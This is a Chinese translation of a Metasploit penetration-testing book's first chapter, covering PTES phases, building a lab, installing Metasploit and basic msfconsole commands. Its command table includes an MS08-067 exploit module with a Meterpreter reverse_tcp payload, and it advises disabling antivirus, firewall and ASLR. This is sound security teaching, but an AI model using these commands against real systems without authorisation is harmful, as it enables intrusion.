# 第 1 章：使用 Metasploit 进行渗透试验

渗透测试是对基于计算机的系统的蓄意攻击，目的是发现漏洞，找出安全弱点，证明系统是安全的，并利用这些漏洞访问系统。渗透测试将告知组织是否易受攻击，实施的安全性是否足以抵御任何攻击，哪些安全控制可以绕过，等等。因此，渗透测试的重点是提高组织的安全性。

渗透测试的成功在很大程度上取决于使用正确的工具和技术。为了完成测试，渗透测试人员必须选择正确的工具和方法。在谈到渗透测试的最佳工具时，首先想到的是**Metasploit**。它被认为是当今进行渗透测试最有效的审计工具之一。Metasploit 提供了各种各样的漏洞利用、广泛的漏洞利用开发环境、信息收集和 web 测试功能，等等。

本书的写作方式不仅涵盖了 Metasploit 的前端透视图，还将重点介绍框架的开发和定制。本书假设读者具备 Metasploit 框架的基本知识。然而，本书的一些章节也将帮助您回忆基本知识。

在介绍本书中的主题时，我们将遵循下图所示的特定过程：



本章将帮助您回顾渗透测试和 Metasploit 的基础知识，这将帮助您熟悉本书的节奏。

在本章中，您将：

*   了解渗透测试的各个阶段
*   为 Metasploit 演习建立渗透测试实验室
*   回想一下 Metasploit 框架的基础知识
*   了解传统开发的工作原理
*   了解使用 Metasploit 进行渗透测试的方法
*   了解使用数据库的好处

这里需要注意的一个重要问题是，我们可能不会在一天之内成为一名专业的渗透测试人员。它需要练习、熟悉工作环境、在关键情况下的执行能力，最重要的是，了解我们必须如何循环完成渗透测试的各个阶段。

在本章中，我们将深入探讨 Metasploit 渗透测试的基本原理。我们还将介绍自 Metasploit 框架发明以来多年来常用的传统良好的 Metasploit 开发。在本章中，我们将了解：

*   这些古老的功绩到底是如何发挥作用的
*   他们的目标是什么
*   如何利用这些漏洞危害系统

当我们考虑对一个组织进行渗透测试时，我们需要确保一切都是完美的，并且符合渗透测试标准。因此，如果您对渗透测试标准不熟悉或对术语**渗透测试执行标准**（**PTES**）不满意，请参考[http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines](http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines) 更加熟悉渗透测试和漏洞评估。根据 PTES，下图说明了渗透测试的各个阶段：



### 注

参见[http://www.pentest-standard.org](http://www.pentest-standard.org) 网站，用于设置在工作环境中应遵循的硬件和系统阶段；执行专业渗透测试需要这些设置。

# 营造环境

在我们开始使用 Metasploit 发射复杂的攻击向量之前，我们必须熟悉工作环境。收集有关工作环境的知识确实是一个关键因素，在进行渗透测试之前，这一点会发挥作用。在开始 Metasploit 练习之前，让我们了解渗透测试的各个阶段，并了解如何组织专业规模的渗透测试。

## 预作用

渗透测试的第一个阶段，即预交互，涉及对客户组织、公司、机构或网络进行渗透测试的关键因素进行讨论；这是由客户自己完成的。这是渗透测试仪和客户之间的连接线。预交互有助于客户充分了解通过其网络/域或服务器将要执行的操作。因此，这里的测试人员将作为客户的教育者。渗透测试人员还讨论了测试范围、将要测试的所有领域以及代表客户进行测试时需要的任何特殊要求。这包括特权、访问关键系统等。测试的预期阳性结果也应作为本阶段与客户讨论的一部分。作为一个过程，我们将讨论以下一些关键点：

*   **范围界定**：本节讨论项目范围并估算项目规模。范围还定义了测试应包括的内容以及测试中应排除的内容。测试人员还讨论范围和域以及要执行的测试类型（黑框或白框）。对于白盒测试，测试仪需要哪些访问选项？管理人员问卷、测试持续时间、是否包括压力测试以及设置条款和条件的费用都包含在范围内。
*   **目标**：本节讨论渗透测试要实现的各种主要和次要目标。
*   **测试术语和定义**：本部分与客户讨论基本术语，帮助客户更好地理解术语。
*   **交战规则**：此部分定义了测试时间、时间线、攻击权限，以及更新正在进行的测试状态的定期会议。

### 注

有关预交互的更多信息，请参阅[http://www.pentest-standard.org/index.php/File:Pre-engagement.png](http://www.pentest-standard.org/index.php/File:Pre-engagement.png)。

## 情报收集/侦察阶段

在情报收集阶段，您需要收集尽可能多的有关目标网络的信息。目标网络可以是一个网站、一个组织，也可以是一家成熟的财富公司。最重要的方面是从社交媒体网络收集有关目标的信息，并使用**谷歌 dorks**（一种使用专门查询从谷歌提取敏感信息的方法）查找与目标相关的敏感信息。**脚印**使用主动和被动攻击的组织也可以是一种方法。

智能阶段是渗透测试中最关键的阶段之一。正确获得的目标知识将有助于测试人员激发适当和准确的攻击，而不是尝试所有可能的攻击机制；这也将帮助他或她节省大量的时间。此阶段将消耗测试总时间的 40%到 60%，因为访问目标在很大程度上取决于系统的打印效果。

渗透测试人员的职责是通过进行各种扫描获得有关目标的充分知识；扫描服务，查找打开的端口，识别这些端口上运行的所有服务，并确定哪些服务易受攻击，以及如何利用这些服务进入所需的系统。

此阶段所遵循的程序需要确定目标当前设置的安全策略，以及我们可以采取哪些措施来违反这些策略。

让我们用一个例子来讨论这个问题。考虑对 Web 服务器进行黑盒测试，客户端希望通过压力测试来测试其网络。这里，我们将测试一台服务器，看看它能承受多大的压力，或者简单地说，服务器是如何响应**拒绝服务**（**DoS**攻击的。DoS 攻击或压力测试是向服务器发送不确定请求或数据的过程的名称，目的是检查服务器是否成功处理所有请求或拒绝服务。

为了实现这一点，我们启动我们的网络压力测试工具，并对目标网站发起攻击。然而，在发起攻击几秒钟后，我们发现服务器没有响应我们的浏览器，网站也没有打开。此外，会显示一个页面，说明该网站当前处于脱机状态。那么这意味着什么呢？我们是否成功取出了所需的 web 服务器？一点也不。实际上，这是一种保护机制的标志，它是由服务器管理员设置的，感知到我们关闭服务器的恶意意图，并禁止我们的 IP 地址。因此，在发动攻击之前，我们必须收集正确的信息并识别目标上的各种服务。

因此，更好的方法是从不同的 IP 范围测试 web 服务器。也许保留两到三个不同的虚拟专用服务器进行测试是一个好方法。此外，我建议您在向真实目标发射这些攻击向量之前，在虚拟环境中测试所有攻击向量。必须对攻击向量进行适当的验证，因为如果我们在攻击之前不验证攻击向量，可能会使目标上的服务崩溃，这一点都不有利。

现在，让我们来看第二个例子。考虑 Windows 2000 服务器上的白盒测试。我们知道该服务器易受 Windows 2000 server 中非常常见的漏洞的攻击，即**分布式组件对象模型**（**DCOM**攻击。但是，当我们试图攻击它时，我们没有访问它的选项。相反，我们得到一个错误，指示连接失败或无法建立到给定远程地址的连接。最有可能的情况是，这是因为使用了一个附加的第三方防火墙，它阻止了流量，不允许我们进入系统内部。

在这种情况下，我们可以简单地改变从服务器连接回来的方法，这将建立从目标到系统的连接，而不是直接连接到服务器。这是因为与入站流量相比，出站流量可能没有经过高度过滤。

当被视为一个过程时，该阶段涉及以下程序：

*   **目标选择**：此包括选择要攻击的目标，确定攻击目标，以及攻击时间。
*   **隐蔽采集**：这涉及到定位采集、使用中的设备和垃圾箱潜水。此外，它还包括涉及数据仓库标识的场外收集；该阶段通常在白盒贯入试验期间考虑。
*   **脚印**：此涉及主动或被动扫描，以识别目标使用的各种技术，包括端口扫描、旗帜抓取等。
*   **识别保护机制**：此涉及识别防火墙、过滤系统、基于网络和主机的保护等。

### 注

有关收集情报的更多信息，请参阅[http://www.pentest-standard.org/index.php/Intelligence_Gathering](http://www.pentest-standard.org/index.php/Intelligence_Gathering) 。

### 对试验场地进行预先感知

渗透测试人员一生中的大多数时候，当他或她开始测试环境时，他或她知道下一步该做什么。这意味着，如果他或她看到一个 Windows box 正在运行，他或她会将他的方法转换为对 Windows 非常有效的漏洞利用。这方面的一个例子可能是利用 NETAPI 漏洞进行攻击，这是测试 Windows XP 机箱的最佳选择。假设，他或她需要访问一个组织，在访问该组织之前，他或她知道该组织中 90%的计算机都在 Windows XP 上运行，其中一些使用 Windows 2000 Server。他或她很快就形成了一种心态，即他或她将使用 Metasploit 针对基于 XP 的系统的 NETAPI 漏洞和针对 Windows 2000 server 的 DCOM 漏洞成功完成测试阶段。然而，我们也将在本章的后一阶段看到如何实际使用这些漏洞。

考虑 Web 服务器上的一个白盒测试的另一个例子，服务器托管 ASP 和 ASPX 页面。在这种情况下，我们转而使用基于 Windows 的漏洞利用和**互联网信息服务**（**IIS**）测试工具。因此，忽略 Linux 的漏洞利用和工具。

因此，在测试中呈现环境为构建我们需要在客户机站点上遵循的测试策略提供了有利条件。

### 注

有关 NETAPI 漏洞的更多信息，请访问[http://technet.microsoft.com/en-us/security/bulletin/ms08-067](http://technet.microsoft.com/en-us/security/bulletin/ms08-067) 。

有关 DCOM 漏洞的更多信息，请访问[http://www.rapid7.com/db/modules/exploit/Windows /dcerpc/ms03_026_dcom](http://www.rapid7.com/db/modules/exploit/Windows /dcerpc/ms03_026_dcom)。

## 威胁建模

为了进行正确的渗透测试，需要威胁建模。这一阶段的重点是对正确的威胁、其影响以及基于其可能造成的影响的分类进行建模。然而，根据在情报收集阶段所做的分析，我们可以在此阶段为目标建立可能的最佳攻击向量模型。威胁建模适用于业务资产分析、流程分析、威胁分析和威胁能力分析。本阶段回答以下问题：

*   我们如何攻击特定的网络？
*   我们需要获取哪些关键数据？
*   什么方法最适合攻击？
*   评级最高的威胁是什么？

对威胁进行建模将有助于渗透测试人员执行以下一组操作：

*   收集有关高级威胁的相关文档
*   在分类的基础上确定组织的资产
*   识别和分类威胁
*   将威胁映射到组织的资产

对威胁进行建模将有助于定义具有最高优先级的资产，以及可能影响这些资产的威胁。

现在，让我们讨论第三个例子。请考虑对公司网站进行黑盒测试。在这里，有关公司客户的信息是主要资产。但是，在同一后端的不同数据库中，也可能存储事务记录。在这种情况下，攻击者可以利用 SQL 注入的威胁跨过事务记录数据库。因此，交易记录是次要资产。因此，在此阶段可以将 SQL 注入攻击映射到主资产和辅助资产。

Nessus 等漏洞扫描器可以使用自动化方法帮助清晰、快速地建立威胁模型。这可以证明在进行大型测试时非常方便。

### 注

有关威胁建模阶段涉及的流程的更多信息，请参阅[http://www.pentest-standard.org/index.php/Threat_Modeling](http://www.pentest-standard.org/index.php/Threat_Modeling) 。

## 脆弱性分析

漏洞分析是发现系统或应用程序中缺陷的过程。这些缺陷可以从服务器到 web 应用程序，从不安全的应用程序设计到易受攻击的数据库服务，从基于 VOIP 的服务器到基于 SCADA 的服务。该阶段通常包含三种不同的机制，即测试、验证和研究。测试包括主动测试和被动测试。验证包括删除误报和通过手动验证确认漏洞的存在。研究是指验证发现的漏洞并触发它以确认其存在。

### 注

有关威胁建模阶段涉及的流程的更多信息，请参阅[http://www.pentest-standard.org/index.php/Vulnerability_Analysis](http://www.pentest-standard.org/index.php/Vulnerability_Analysis) 。

## 开发和后期开发

开发阶段涉及利用先前发现的漏洞。此阶段被认为是实际攻击阶段。在此阶段，渗透测试人员会对系统的目标漏洞进行攻击，以获得访问权限。本书主要介绍了这一阶段。

开采后阶段为开采后期。这个阶段涵盖了我们可以在被利用的系统上执行的各种任务，例如提升权限、上载/下载文件、旋转等。

### 注

有关开发阶段所涉及流程的更多信息，请参阅[http://www.pentest-standard.org/index.php/Exploitation](http://www.pentest-standard.org/index.php/Exploitation) 。有关后期开发的更多信息，请参阅[http://www.pentest-standard.org/index.php/Post_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation) 。

## 报告

创建整个贯入试验的正式报告是进行贯入试验的最后一个阶段。识别关键漏洞、创建图表、建议和建议的修复是渗透测试报告的重要组成部分。本书后半部分介绍了一整节专门用于报告。

### 提示

有关威胁建模阶段涉及的流程的更多信息，请参阅[http://www.pentest-standard.org/index.php/Reporting](http://www.pentest-standard.org/index.php/Reporting) 。

# 安装环境

在开战之前，士兵们必须确保他们的火炮工作正常。这正是我们将要遵循的。成功测试环境取决于测试实验室的配置情况。此外，成功的测试回答了以下问题：

*   您的测试实验室配置得如何？
*   测试所需的所有工具都可用吗？
*   您的硬件支持此类工具的性能如何？

在我们开始测试任何东西之前，我们必须确保所有必需的工具集都是可用的，并且一切都能完美地工作。

## 建立渗透测试实验室

在与 Metasploit 融合之前，我们需要有一个测试实验室。建立测试实验室的最佳想法是收集不同的机器，并在其上安装不同的操作系统。然而，如果我们只有一台机器，最好的办法是建立一个虚拟环境。因此，让我们看看如何建立一个示例虚拟环境。

我们需要两个操作系统：Backtrack/Kali Linux 和 Windows XP/7。我们将使用 Backtrack/Kali Linux 来测试 Windows XP/7 系统。

此外，虚拟化在当今的渗透测试中扮演着重要角色。由于硬件成本高，虚拟化在渗透测试中发挥着经济高效的作用。在主机操作系统下模拟不同的操作系统不仅可以节省成本，还可以节省电力和空间。但是，建立虚拟渗透测试实验室可以防止对实际主机系统进行任何修改，并允许我们在隔离环境中执行操作。虚拟网络允许网络攻击在隔离网络上运行，从而防止对主机系统的网络硬件进行任何修改或使用。

此外，虚拟化的快照功能有助于在特定的时间间隔内保持虚拟机的状态。这证明非常有用，因为我们可以在测试虚拟环境时比较或重新加载操作系统的以前状态。

虚拟化期望主机系统拥有足够的硬件资源，如 RAM、处理能力、驱动器空间等，以顺利运行。

### 注

有关快照的更多信息，请参阅[http://kb.vmware.com/kb/1015180](http://kb.vmware.com/kb/1015180) 。

那么，让我们看看如何用两个操作系统创建一个虚拟环境。在这个场景中，我们将在虚拟环境中安装一个 Windows XP box 和一个 Kali 操作系统。然而，要创建虚拟操作系统，我们需要虚拟仿真器软件。我们可以使用两款最流行的产品中的任意一款：**VirtualBox**和**VMware player**。因此，让我们从安装开始，执行以下步骤：

1.  下载 VirtualBox（[http://www.virtualbox.org/wiki/Downloads](http://www.virtualbox.org/wiki/Downloads) ）根据您机器的架构进行设置。
2.  运行安装程序并完成安装。
3.  Now, after the installation, run the VirtualBox program as shown in the following screenshot:

    

4.  现在，要安装新的操作系统，请选择**新建**。
5.  Type an appropriate name in the **Name** field and select the **Operating System** type and **Version**, as follows:
    *   对于 Windows XP，选择**操作系统**作为**Microsoft Windows**，选择**版本**作为**Windows XP**
    *   对于 Kali Linux，选择**操作系统**作为**Linux**，选择**版本**作为**Ubuntu**，如果您不确定，请选择**其他内核 2.6**

    但是，这可能与以下屏幕截图中显示的内容类似：

    

6.  选择要分配的系统内存量，对于 Windows XP 通常为 512 MB，对于 Kali Linux 至少为 1GB。
7.  下一步是创建一个虚拟磁盘，作为虚拟操作系统的硬盘。将磁盘创建为**动态分配的磁盘**。选择此选项将消耗刚好足以容纳虚拟操作系统的空间，而不是消耗主机系统的整个物理硬盘。
8.  下一步是为磁盘分配大小；通常，10GB 的空间就足够了。
9.  现在，继续创建磁盘，查看摘要后，点击**创建**。
10.  Now, click on **Start** to run. For the very first time, a window will pop up showing the first run wizard; proceed with it and select the Windows XP /Kali OS by browsing to the location of the `.iso` file from the hard disk. This process may look similar to what is shown in the following screenshot:

    

11.  如果您使用的是其他机器，请继续执行安装步骤。
12.  Windows XP 将正常安装。对 Kali Linux 重复同样的操作，但记住将**操作系统**设置为**Linux**，将**版本**设置为**Ubuntu**或**其他内核 2.6**。

### 注

要安装 VMware，请从[下载 VMware playerhttp://www.vmware.com/products/player/](http://www.vmware.com/products/player/) 。

有关 Kali Linux 的完整安装指南，请参阅[http://docs.kali.org/category/installation](http://docs.kali.org/category/installation) 。

## Metasploit 的基本原理

现在我们已经回顾了渗透测试的基本阶段，并完成了虚拟测试实验室的设置，让我们来谈谈大的画面：Metasploit。Metasploit 是一个安全项目，提供漏洞利用和大量侦察功能来帮助渗透测试人员。Metasploit 由 H.D Moore 在 2003 年创建，自那时起，它的快速发展使它成为公认的最流行的渗透测试工具之一。Metasploit 完全是一个 Ruby 驱动的项目，提供了大量的漏洞利用、有效负载、编码技术和大量的漏洞利用后功能。

Metasploit 有各种不同的版本，如下所示：

*   **Metasploit pro**：这个版本是一个商业版，提供了大量强大的功能，如 web 应用程序扫描和开发、自动开发等。
*   **Metasploit 社区**：这是一个免费版，减少了 pro 版的功能。然而，对于学生和小企业来说，这个版本是一个不错的选择。
*   **Metasploit 框架**：此是一个命令行版本，包含所有手动任务，如手动开发、第三方导入等。

在本书中，我们将使用 Metasploit 社区版。Metasploit 还提供各种类型的用户界面，如下所示：

*   **GUI 界面**：图形用户界面具有点击按钮即可获得的所有选项。此界面提供了一个用户友好的界面，有助于提供更清晰的漏洞管理。
*   **控制台界面**：这是最受欢迎的界面，也是最受欢迎的界面。此接口为 Metasploit 提供的所有选项提供了一种集所有功能于一身的方法。该接口也被认为是最稳定的接口之一。在本书中，我们将使用最多的控制台界面。
*   **命令行界面**：命令行界面是最强大的界面，支持对有效负载生成等活动发起攻击。然而，在使用命令行界面时记住每个命令是一项困难的工作。
*   拉斐尔·穆奇的**阿米蒂奇**：阿米蒂奇为 Metasploit 添加了一个酷炫的黑客风格 GUI 界面。Armitage 提供了简单的漏洞管理、内置 NMAP 扫描、漏洞利用建议，以及使用**Cortana**脚本自动化功能的能力。本书后半部分有一整章专门介绍阿米蒂奇和科尔塔纳脚本。

### 提示

有关 Metasploit 社区的更多信息，请参阅[https://community.rapid7.com/community/metasploit/blog/2011/12/21/metasploit-tutorial-an-introduction-to-metasploit-community](https://community.rapid7.com/community/metasploit/blog/2011/12/21/metasploit-tutorial-an-introduction-to-metasploit-community) 。

## 在不同环境下配置 Metasploit

我们可以在 Linux 和 Windows 环境下配置 Metasploit。但是，我们也可以为远程配置的 Metasploit 设置连接。我们可以在以下场景中使用 Metasploit：

*   用于 Windows 的 Metasploit
*   Ubuntu 的 Metasploit
*   具有 SSH 访问权限的 Metasploit

### 在 Windows XP/7 上配置 Metasploit

在 Windows 环境中设置 Metasploit 很容易。从 Metasploit 的官方网站下载安装程序，并以与任何其他基于 Windows 的工具相同的方式运行安装程序。然而，Windows 上的 Metasploit 需要大量的安全保护，我们需要关闭这些保护。因此，在 Windows 上安装 Metasploit 不如在 Linux 上安装。

Metasploit 有两个不同的版本：社区版和专业版。专业版是收费的，但它是一个功能齐全的框架，有许多选项。另一方面，社区版是免费的，但是在这个版本中，一些附加组件丢失了。所有想要获得一款功能齐全的 Metasploit 软件的人都可以选择专业版。但是，如果只是为了学习，您可以使用 Metasploit 社区版，并可以探索它的各种功能。

### 注

您可以在[下载适用于 Linux 和 Windows 的 Metasploithttp://www.rapid7.com/products/metasploit/download.jsp](http://www.rapid7.com/products/metasploit/download.jsp) 。

### 提示

在安装 Metasploit 之前，不要忘记禁用防病毒和防火墙；否则，您的防病毒软件将删除许多恶意攻击。

要禁用或启用 ASLR 保护，请更改位于以下路径的注册表项的值：

`HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\MoveImages`

### 在 Ubuntu 上配置 Metasploit

在 Ubuntu12.04 LTS 上设置 Metasploit 是一项非常简单的工作。只需从 Ubuntu 的官方网站下载最新版本的 Ubuntu，并将其安装到另一台机器上；或者，在虚拟环境中重复这个过程，就像我们在回溯 Linux 中所做的那样。

现在，在设置 Ubuntu 之后，我们需要根据您机器的体系结构下载适用于 Linux 的 Metasploit 安装程序。

下载基于 Linux 的安装程序后，只需执行以下步骤：

1.  Open the terminal and browse to the directory of the Metasploit installer, as shown in the following screenshot:

    

2.  Now, we need to make this installer file executable. To do this, we use the following command:

    ```
    chmod +x Metasploit-latest-linux-installer.run

    ```

    前面的命令允许所有人（即用户、组和世界）执行此文件。

3.  现在，只需使用`./[File-Name]`执行此文件，在本例中，它将是`./Metasploit-latest-linux-installer.run`。
4.  Now, a simple GUI-style installation interface will pop up, and we need to proceed with it as shown in the following screenshot:

    

5.  下一步与许可协议有关，在同意该协议后，我们可以选择一个用于 Metasploit 安装的文件夹。默认为`/opt/Metasploit`。保持原样，继续安装。
6.  The next option is to confirm whether Metasploit will be installed as a service or not. The idea behind this is that Metasploit will automatically get initialized when the system boots up, so we choose to install it as a service and proceed to the next step, as shown in the following screenshot:

    

7.  下一步是确保在 Metasploit 继续安装之前已关闭防火墙和防病毒。这一点很重要，因为如果防火墙打开，它可能会阻止 Metasploit 的连接，，并且防病毒软件可能会检测到许多模块是恶意的。为了避免防病毒软件删除和检测模块，我们选择关闭防病毒保护和防火墙。
8.  接下来，您需要选择 Metasploit 将使用的端口。保持原样，除非它被其他应用程序使用。然后，生成一个**安全套接字层**（**SSL**证书以提供到框架的安全连接。
9.  If everything works fine, we will see the installation window with a progress bar as shown in the following screenshot:

    

10.  After the successful installation of Metasploit, we can simply open the terminal and type `msfconsole` to set up the console interface of Metasploit. Then, we can start with our work as shown in the following screenshot:

    

    ### 注

    Ubuntu 最新版本可从[下载 http://www.ubuntu.com/download/desktop](http://www.ubuntu.com/download/desktop) 。

    您可以参考[上关于 SSH 访问的优秀教程 http://rumyittips.com/configure-ssh-server-on-kali-linux/](http://rumyittips.com/configure-ssh-server-on-kali-linux/) 。

## 处理错误状态

有时我们在系统上安装 Metasploit 框架时可能会遇到一些安装错误。然而，我们将看到如何处理这些错误。在基于 Windows 和 Linux 的安装过程中可能会发生错误。然而，如果处理得当，这些问题很容易克服。

### 注

在[注册 https://community.rapid7.com/](https://community.rapid7.com/) 了解有关支持问题的更多信息。

### 基于 Windows 的安装中出现错误

基于 Windows 的安装中最常见的错误是数据库错误，其中数据库拒绝提供连接以配置 Metasploit 的连接。这可能发生在 PostgreSQL server 可能无法工作的情况下；有时，在默认目录中未正确安装 Metasploit 的情况下可能会发生这种情况。

为了克服这些错误，我们可以执行以下操作：

*   尝试手动启动 PostgreSQL server，然后在**运行**提示中键入`services.msc`，最后找到并启动`PostgreSQL`服务
*   在默认目录中安装 Metasploit

### 基于 Linux 的安装中出现错误

在基于 Linux 的安装中，由于文件依赖关系中断，可能会发生错误，并可能导致安装失败。如果安装失败，我们可以手动修复这些依赖项，也可以通过终端下载并安装正确的依赖项来手动配置 Metasploit。

要下载 Metasploit 所需的所有依赖项，可以使用以下命令：

```
$sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev libreadline5 libsqlite3-dev libpcap-dev openjdk-7-jre subversion git-core autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer libyaml-dev ruby1.9.3

```

前面的命令将下载所有基本依赖项，如 build essentials、Ruby、PostgreSQL 以及 Metasploit 所需的所有其他主要依赖项。

如果错误是 Ruby 库的一部分，我们可以使用以下命令安装 my Metasploit 使用的所有基本 Ruby 库：

```
$sudo gem install wirble sqlite3 bundler

```

### 注

要从命令行完全安装 Metasploit，请参阅[http://www.darkoperator.com/installing-metasploit-in-ubunt/](http://www.darkoperator.com/installing-metasploit-in-ubunt/) 。

### 提示

尝试从命令行安装 Metasploit；这肯定会提高您识别 Metasploit 需要哪些依赖项的技能，并使您更接近其核心。

# 使用 Metasploit 进行渗透试验

在设置了工作环境后，我们现在准备使用 Metasploit 执行第一次渗透测试。然而，在开始测试之前，让我们回顾一下 Metasploit 框架中使用的一些基本函数和术语。

## 回顾 Metasploit 的基础知识

运行 Metasploit 后，我们可以通过在 Metasploit 控制台中键入`help`来列出框架中所有可用的命令。让我们回顾一下 Metasploit 中使用的基本术语，如下所示：

*   **利用**：这是一段代码，执行时会触发目标上的漏洞。
*   **有效负载**：这是成功利用漏洞后在目标上运行的一段代码。基本上，它定义了我们需要在目标系统上获得的访问类型和操作。
*   **辅助**：这些是模块，提供扫描、模糊、嗅探等附加功能。
*   **编码器**：编码器用于混淆模块，以避免被防病毒或防火墙等保护机制检测到。

现在让我们回顾一下 Metasploit 的一些基本命令，看看它们应该做什么，如下表所示：

<colgroup><col style="text-align: left"> <col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

用法

 | 

实例

 |
| --- | --- | --- |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块的步骤 | 

```
msf>use exploit/windows/smb/ms08_067_netapi

```

 |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | 

```
msf>show exploits

```

 |
| `set [options/payload]` | 为特定对象设置值的步骤 | 

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 111.111.111.111

```

 |
| `setg [options/payload]` | 全局设置特定对象的值，以便在打开模块时值不会更改 | 

```
msf>setg payload windows/meterpreter/reverse_tcp
msf>setg LHOST 111.111.111.111

```

 |
| `run` | 设置所有必需选项后启动辅助模块 | 

```
msf>run

```

 |
| `exploit` | 利用 | 

```
msf>exploit

```

 |
| `back` | 取消选择模块并向后移动的步骤 | 

```
msf(ms08_067_netapi)>back
msf>

```

 |
| `Info` | 列出与特定漏洞/模块/辅助工具相关的信息 | 

```
msf>info exploit/windows/smb/ms08_067_netapi

```

 |
| `Search` | 查找特定模块的步骤 | 

```
msf>search netapi

```

 |
| `check` | 检查特定目标是否易受攻击 | 

```
msf>check

```

 |
| `Sessions` | 列出可用的会话 | 

```
msf>sessions [session number]

```

 |

### 注

如果您是第一次使用 Metasploit，请参阅[http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands](http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands) 了解有关基本命令的更多信息。

## 渗透测试 Windows XP

回顾 Metasploit 的基础知识，我们都准备好使用 Metasploit 执行第一次渗透测试。我们将在此处测试 IP 地址，并尝试查找有关目标 IP 的相关信息。我们将在这里遵循渗透测试的所有要求阶段，我们将在本章前面部分讨论。

### 假设

